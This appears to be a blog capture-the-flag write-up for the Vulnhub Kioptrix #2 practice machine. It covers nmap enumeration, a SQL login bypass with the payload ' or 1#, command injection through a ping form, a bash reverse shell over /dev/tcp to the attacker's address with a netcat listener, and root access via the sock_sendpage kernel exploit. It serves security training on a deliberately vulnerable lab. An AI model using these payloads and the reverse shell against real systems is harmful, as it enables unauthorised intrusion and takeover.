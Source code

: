 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #2 Writeup"
date:   2020-01-29 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Enumeration

#### Nmap
```bash
Nmap scan report for 192.168.71.129
Host is up, received arp-response (0.0056s latency).
Scanned at 2020-01-19 12:22:25 IST for 119s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/  
j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/https? syn-ack ttl 64
|_ssl-date: 2020-01-19T04:44:13+00:00; -2h09m12s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp        syn-ack ttl 64 CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:48:8C:63 (VMware)

Host script results:
|_clock-skew: -2h09m12s
```

That's a lot of attack surface to cover. Let's start with the web application on port 80.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/login.png){: .align-center}
Looks like a login page for administrators. We can try `sql` injection or `sql` login bypass.  
We can bypass the login using `' or 1#` or `' or 1-- `

#### MySQL Login code (an be found after getting a shell)
```sql
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```
We can see that we can escape from the query using a `'` and then return a true value using `or 1` and then comment out the rest using `#` or `-- `

## Low Privilege Shell
Login has been successfully bypassed and we are presented with another page, asking for an ip address to ping. 
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/revshell.png){: .align-center}
We can inject any command here by appending a `;` followed by our code.  
Unfortunately there was no `netcat` installed. But we can get reverse shell using `bash`

```bash
bash -i >& /dev/tcp/192.168.71.128/4444 0>&1
```
Don't forget to start a `nc` listener.

```bash
root@kali:~/Desktop/vulnhub/kioptix2# nc -lvp 4444
listening on [any] 4444 ...
192.168.71.129: inverse host lookup failed: Unknown host
connect to [192.168.71.128] from (UNKNOWN) [192.168.71.129] 49917
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
And we have a shell.

## Low Priv Shell Enumeration

So I spent a good amount of time snooping around, looking for privilege escalation methods but to no avail.
I finally started looking for kernel exploits.
Usually it’s always a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. So always make sure that  
you have exhausted all your options before trying out kernel exploits.

#### Linux_Exploit_Suggester.pl
We can use [Linux_Exploit_Suggester.pl](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) to find possible kernel exploits.

```bash
bash-3.00$ perl Linux_Exploit_Suggester.pl

Kernel local: 2.6.9

Searching among 65 exploits...

Possible Exploits:
[+] american-sign-language
   CVE-2010-4347
   Source: http://www.securityfocus.com/bid/45408/
[+] exp.sh
[+] half_nelson
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/6851
[+] half_nelson1
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson2
   Alt: econet    CVE-2010-3850
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson3
   Alt: econet    CVE-2010-4073
   Source: http://www.exploit-db.com/exploits/17787/
[+] krad
[+] krad3
   Source: http://exploit-db.com/exploits/1397
[+] pktcdvd
   CVE-2010-3437
   Source: http://www.exploit-db.com/exploits/15150/
[+] py2
[+] sock_sendpage
   Alt: wunderbar_emporium    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9435
[+] sock_sendpage2
   Alt: proto_ops    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9436
[+] udp_sendmsg_32bit
   CVE-2009-2698
   Source: http://downloads.securityfocus.com/vulnerabilities/exploits/36108.c
[+] video4linux
   CVE-2010-3081
   Source: http://www.exploit-db.com/exploits/15024/
```

I had to filter through these exploits and finally found [sock_sendpage()](https://www.exploit-db.com/exploits/9545)

## Root Shell
Transfer the code to the machine(I used `python` http server and `wget`), compile it and run.

```bash
bash-3.00$ gcc -Wall sock.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
And we are root!